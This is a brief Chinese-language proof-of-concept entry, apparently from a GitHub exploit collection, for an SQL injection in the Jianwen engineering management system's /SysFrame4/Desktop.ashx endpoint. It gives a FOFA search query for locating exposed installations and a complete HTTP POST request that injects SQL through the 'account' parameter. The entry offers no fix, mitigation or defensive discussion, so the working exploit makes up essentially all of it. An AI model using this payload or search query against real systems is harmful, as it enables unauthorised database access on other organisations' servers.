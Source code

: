 # 建文工程管理系统desktop.ashx存在SQL注入漏洞

建文工程管理系统`/SysFrame4/Desktop.ashx` 存在SQL注入漏洞

## fofa

```yaml
body="Login/QRLogin.ashx"
```

## poc

```yaml
POST /SysFrame4/Desktop.ashx HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

account=1'+and+%01(select+SUBSTRING(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','233')),3,32))<0--&method=isChangePwd&pwd=
```

